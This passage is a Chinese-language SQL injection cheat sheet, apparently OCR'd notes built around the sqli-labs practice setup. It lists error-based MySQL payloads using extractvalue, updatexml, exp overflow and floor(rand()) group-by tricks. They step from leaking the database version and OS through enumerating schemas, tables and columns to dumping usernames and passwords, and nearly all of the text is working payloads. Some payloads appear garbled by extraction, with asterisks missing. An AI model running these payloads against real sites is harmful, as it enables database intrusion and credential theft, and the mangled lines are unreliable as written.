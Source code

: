 `?id=1' and extractvalue(1, concat(0x7e,(select @@version),0x7e))--+ (爆出版本号)`

`?id=1' and extractvalue(1, concat(0x7e,(select @@version\_compile\_os),0x7e))--+ (爆出操作系统)`

`?id=1' and extractvalue(1, concat(0x7e,(select schema\_name from information\_schema.schemata limit 5,1),0x7e))--+` （爆数据库）

`?id=1' and extractvalue(1, concat(0x7e,(select table\_name from information\_schema.tables where table\_schema='security' limit 3,1),0x7e))--+` （爆数据表）

`?id=1' and extractvalue(1, concat(0x7e,(select column\_name from information\_schema.columns where table\_name='users' limit 3,1),0x7e))--+`（爆字段）

`?id=1' and extractvalue(1, concat(0x7e,(select concat(id,0x7e,username,0x7e,password) from security.users limit 7,1),0x7e))--+` （爆数据）

updatexml函数：

> 细节问题： extractvalue()基本一样，改个关键字`updatexml`即可,与extractvalue有个很大的区别实在末尾注入加上，如：`（1，concat(select @@version),1),而extractvalue函数末尾不加1`（数值）

`?id=1' and updatexml(1, concat(0x7e,(select schema\_name from information\_schema.schemata limit 5,1),0x7e),**1**)--+` （爆数据库）

`?id=1' and updatexml(1, concat(0x7e,(select table\_name from information\_schema.tables where table\_schema=database() limit 3,1),0x7e),1)--+` （爆数据表）

`?id=1' and updatexml(1, concat(0x7e,(select column\_name from information\_schema.columns where table\_name='users' limit 3,1),0x7e),1)--+` （爆字段）

`?id=1' and updatexml(1, concat(0x7e,(select concat(id,0x7e,username,0x7e,password) from security.users limit 7,1),0x7e),1)--+`

exp函数溢出错误：

`exp(~(select * from(select * from flag))a))`

在mysql>5.5.53时，则不能返回查询结果

floor函数：

`?id=1' union select 1,count(),concat(0x7e,(select database()),0x7e,floor(rand(0)2))a from information\_schema.schemata group by a--+`

`?id=1' union select 1,count(),concat(0x7e,(select schema\_name from information\_schema.schemata limit 5,1),0x7e,floor(rand(0)2))a from information\_schema.columns group by a--+` (爆数据库，不断改变limit得到其他)

`?id=1' union select 1,count(),concat(0x7e,(select table\_name from information\_schema.tables where table\_schema='security' limit 3,1),0x7e,floor(rand(0)2))a from information\_schema.columns group by a--+` （爆出users表）

`?id=1' union select 1,count(),concat(0x7e,(select column\_name from information\_schema.columns where table\_name='users' limit 5,1),0x7e,floor(rand(0)2))a from information\_schema.columns group by a--+` （爆出password字段）

`?id=1' union select 1,count(),concat(0x7e,(select password from security.users limit 2,1),0x7e,floor(rand(0)2))a from information\_schema.columns group by a--+` （爆出数值）

### 延时注入
